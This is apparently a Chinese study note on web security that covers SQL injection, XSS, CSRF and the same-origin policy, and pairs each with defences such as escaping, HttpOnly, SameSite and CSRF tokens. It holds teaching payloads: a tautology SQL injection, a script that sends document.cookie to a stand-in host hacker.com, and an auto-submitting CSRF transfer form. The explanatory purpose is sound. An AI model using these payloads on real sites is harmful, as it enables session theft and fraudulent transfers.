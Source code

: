 ```yaml
---
title: Web安全
date: 2019-02-16 17:57:46
category: Other
---
```

> 浏览器安全可以分为三大块——Web 页面安全、浏览器网络安全和浏览器系统安全。
### 1. sql注入
通过把sql命令插入到web表单提交，或输入域名/页面请求的查询字符串，最终达到欺骗服务器执行恶意sql命令。

变量id是一个从用户界面传来的值
```sql
string sql = " SELECT id, name, age from users WHERE id='" + id + "'"
```
ID值: *`1' OR '1' = '1`*
```sql
SELECT id, name, age
FROM users
WHERE id='1' OR '1' = '1'
```
从users表中的所有数据都查询出来，仅仅通过一个简单的恒真表达式。




### 2. XSS脚本攻击
黑客通过"HTML注入"篡改网页，插入了恶意的脚本，从而在用户浏览网页时，控制用户浏览器的一种攻击。

#### 2.1 如何注入恶意脚本
一旦你浏览已经被黑客留下XSS script的页面，这段js就会执行，cookie信息就会被偷走。黑客可以假冒你的身份做事情了。

如果页面被注入恶意js脚本，可以做：
- 窃听cookie：通过`document.cookie`获取cookie信息，发送给恶意服务器
- 监听用户行为：通过`addEventListener`监听键盘时间，发送给恶意服务器
- 修改DOM：伪造假的登录窗口，欺骗用户的用户名和密码
- 在页面内生成浮窗广告


将一段恶意JS代码提交到数据库，用户请求包含恶意js脚本的数据，并注入页面。

某个黑客发表了一篇文章，在`<input>`框中输入一段script
```js
<script type="text/javascript" src="http://hacker.com/hack.js"></script>
```

hack.js文件中的内容
```js
var img = document.createElement('img');
img.src = "http://hacker.com/log?" + escape(document.cookie);
document.body.appendChild(script);
```

#### 2.2 如何阻止攻击
- 对关键字符转码
```js
// 转码前
code:<script>alert('你被xss攻击了')</script>

// 转码后
code:&lt;script&gt;alert(&#39;你被xss攻击了&#39;)&lt;/script&gt;
```
- 用`HttpOnly`保护`Cookie`的安全
- 禁止执行内联脚本
- 限制加载其他域下的资源




### 3. CSRF跨站脚本伪造
#### 3.1 CSRF攻击行为
黑客引诱用户打开黑客的网站，利用用户的登录状态发起跨站请求。
- 自动发起GET请求
- 自动发起POST请求
- 引诱用户点击链接

假设有个银行网站用以下方式进行转账操作
```
http://www.bank.com/transfer.php?toBankId=<账号>&money=<金额>
```
你打开浏览器，先登录了银行网站，然后又开了一个tab页，打开了你的邮箱，有这么一个邮件：恭喜你获得了一台iphone x,点击领取。点击了上面的链接，就执行了转账操作。

后来银行转账功能不用`get`， 改用`post`。 

黑客也做了改进，建立了一个偷偷提交数据的页面。用户进入该页面，会自动提交表单。若用户已经登录了`www.bank.com`，请求成功。

从头到尾，攻击网站都没有获取到过cookie， 都是通过浏览器间接实现（利用web的cookie隐式身份验证机制），所以`httpOnly`并不会影响这个攻击。

```html
<body>
  <iframe name="steal" display:'none'>
    <form method="POST" name="transfer" action="http://www.bank.com/transfer.php">
      <input type="hidden" name="toBankId" value="123">
      <input type="hidden" name="money" value="10000">
    </form>
  </iframe>
  <script>
    function steal(){
      iframe = document.frames["steal"];
      iframe.document.submit("transfer");
    }
  </script>
</body>
```


#### 3.2 防止CSRF攻击
- 如果是第三方站点发起的请求，禁止发送某些关键Cookie数据到服务器
`Set-cookie`请求头带上`SameSite`: Strict, Lax, None
- 检查Referer, Origin请求头: 根据地址判断是否接受请求
- CSRF Token: 在浏览器向服务器发起请求时，服务器生成一个 CSRF Token，该字符串植入到返回的页面中。如果要发起转账，就要带上CSRF Token





### 4. 同源策略
如果两个 URL 的协议、域名和端口都相同，我们就称这两个 URL 同源。
- DOM层面
限制了来自不同源的 JavaScript 脚本对当前 DOM 对象读和写的操作。
- 数据层面
限制了不同源的站点读取当前站点的 Cookie、IndexDB、LocalStorage 等数据。
- 网络层面
限制了通过 XMLHttpRequest 等方式将站点的数据发送给不同源的站点。

但同时：
- 页面中可以嵌入第三方资源
- CSP & CORS: 让服务器决定浏览器能够加载哪些资源，让服务器决定浏览器是否能够执行内联 JavaScript 代码。




### 5. https

### 参考资料
- [简单的 web 安全 checklist](https://cloud.tencent.com/developer/article/1004895)
- 码农翻身-web安全
- 《图解HTTP》第11章 Web的攻击技术